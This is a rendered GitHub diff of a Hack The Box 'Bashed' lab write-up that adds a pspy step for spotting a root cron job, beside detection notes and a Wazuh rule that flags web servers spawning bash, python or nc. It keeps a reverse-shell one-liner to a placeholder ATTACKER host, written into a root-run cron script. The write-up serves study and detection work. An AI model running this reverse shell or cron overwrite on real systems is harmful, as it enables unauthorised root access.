

Before and after one commit to rootdrifter/gauntlet, a Markdown page: writeups/htb-bashed.md, 2 parts joined by grey strips. Shown at 92% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs(gauntlet): close audit C2 headroom on bashed + skynet
Strengthen the two lowest-scored stubs per STUB_AUDIT's own enhancement queue,
without fabricating flags (preparation-stub ceiling preserved):

- skynet §4: explain the tar wildcard-injection *mechanism* (shell glob expansion
  places --checkpoint* filenames on tar's argv as options; no -- guard) and
  generalise it beyond tar — the 'why', not just the payload.
- bashed §4: add the pspy step (confirm the root cron without credentials);
  §8 + rule 100522: web-server->interpreter process-lineage detection, flagged
  higher-fidelity than the URL match (survives the shell being renamed).
- STUB_AUDIT: mark both items Addressed 2026-06-22 (mirrors beep precedent).

````diff
--- a/writeups/htb-bashed.md
+++ b/writeups/htb-bashed.md
@@ -79,7 +79,14 @@ sudo -u scriptmanager /bin/bash
 ls -la /scripts         # test.py (scriptmanager) + test.txt (root, rewritten each minute)
 ```
 - The minute-by-minute change to `test.txt` (owned by **root**) proves a **root cron** runs
-  `test.py` from `/scripts`. As scriptmanager you can **overwrite `test.py`**:
+  `test.py` from `/scripts`.
+- **Confirm the job without credentials — `pspy`.** `ls -la` only *infers* the cron from a changing
+  timestamp; `pspy` (a procfs process monitor that needs no root and reads `/proc` directly) lets you
+  *watch* it. Upload the static binary and run `./pspy64 -pf -i 1000`; within a minute it prints the
+  root-owned `CMD: UID=0 ... /usr/bin/python /scripts/test.py`, which is direct evidence — not a guess
+  — that a root cron executes the script you can rewrite. This is the canonical "see the scheduled task
+  you have no permission to list" move: `crontab -l` shows you only *your* jobs, so without `pspy` the
+  root cron is invisible. With the job confirmed, as scriptmanager you can **overwrite `test.py`**:
   ```
   echo 'import os; os.system("bash -c \'bash -i >& /dev/tcp/ATTACKER/PORT 0>&1\'")' > /scripts/test.py
   ```
@@ -110,8 +117,10 @@ ls -la /scripts         # test.py (scriptmanager) + test.txt (root, rewritten ea
 
 - **Apache access log:** repeated `POST`/`GET` to `/dev/phpbash.php` — an interactive web shell shows
   as a single endpoint hit many times with command-like parameters.
-- **auditd:** `www-data` running `sudo -u scriptmanager`; then a Python process spawned by **cron**
-  (`CROND` parent) running as root from `/scripts/test.py`.
+- **auditd (process lineage — the strongest foothold signal):** the web server (`apache2`) parenting an
+  interpreter (`bash`/`sh`/`python`) is the web-shell tell that survives the shell being renamed; then
+  `www-data` running `sudo -u scriptmanager`; then a Python process spawned by **cron** (`CROND` parent)
+  running as root from `/scripts/test.py`.
 - **FIM (syscheck):** modification of `/scripts/test.py` by a non-root user, immediately before a
   root-owned process runs it.
 
@@ -126,6 +135,14 @@ ls -la /scripts         # test.py (scriptmanager) + test.txt (root, rewritten ea
     <description>phpbash web shell accessed (T1505.003)</description>
     <mitre><id>T1505.003</id></mitre>
   </rule>
+  <!-- Web server process spawned an interpreter = web-shell execution (higher fidelity than the URL match) -->
+  <rule id="100522" level="12">
+    <if_group>audit_command</if_group>
+    <field name="audit.ppid_exe" type="pcre2">/(apache2|httpd|nginx)$</field>
+    <field name="audit.exe" type="pcre2">/(bash|sh|python[0-9.]*|nc)$</field>
+    <description>Web server spawned a shell/interpreter — web-shell command execution (T1505.003/T1059)</description>
+    <mitre><id>T1505.003</id><id>T1059.004</id></mitre>
+  </rule>
   <!-- A user-writable cron script changed, then run as root -->
   <rule id="100521" level="13">
     <if_group>syscheck</if_group>
@@ -135,9 +152,13 @@ ls -la /scripts         # test.py (scriptmanager) + test.txt (root, rewritten ea
   </rule>
 </group>
 ```
-**Validation:** access phpbash and confirm 100520; with `<syscheck>` watching `/scripts`, overwrite
-`test.py` and confirm 100521 before the cron tick. Sub-techniques: **T1505.003**, **T1059.004**,
-**T1548.003**, **T1053.003**.
+**Validation:** access phpbash and confirm 100520; run a command in the shell and confirm 100522 fires
+on the `apache2`→`bash`/`python` parent/child (this catches the foothold even if the shell is renamed or
+moved off `/dev/phpbash.php`, which the URL rule in 100520 would miss); with `<syscheck>` watching
+`/scripts`, overwrite `test.py` and confirm 100521 before the cron tick. The process-lineage rule (100522)
+is the higher-fidelity of the two foothold detections — a web server parenting an interpreter is almost
+never legitimate, whereas a URL signature only catches the one filename it knows. Sub-techniques:
+**T1505.003**, **T1059.004**, **T1548.003**, **T1053.003**.
 
 ## Exam relevance — Sec+ SY0-701
 
````
Also changed, not shown: STUB_AUDIT.md (+8 -0 lines), writeups/thm-skynet.md (+11 -0 lines).
